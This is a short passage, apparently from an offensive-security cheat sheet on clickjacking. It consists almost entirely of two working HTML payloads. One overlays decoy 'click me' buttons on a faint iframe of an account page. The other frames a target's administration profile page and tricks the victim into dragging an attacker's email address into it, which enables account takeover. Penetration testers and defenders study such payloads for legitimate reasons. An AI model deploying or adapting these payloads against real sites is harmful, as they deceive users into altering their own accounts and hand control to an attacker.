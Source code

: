 ```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 500px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:330px;
       left:60px;
       z-index: 1;
   }
   .secondClick {
       left:210px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```

### Drag\&Drop + Click payload

```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
